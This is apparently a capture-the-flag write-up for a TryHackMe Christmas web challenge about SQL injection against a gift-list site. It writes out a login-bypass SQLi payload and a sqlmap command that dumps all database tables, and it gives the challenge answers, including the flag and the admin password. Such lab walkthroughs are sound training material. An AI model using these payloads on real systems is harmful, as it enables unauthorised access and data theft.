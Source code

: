 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2857%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%286%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2833%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2852%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2815%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2839%29.png)

![](../.gitbook/assets/image%20%2810%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2820%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2853%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%282%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

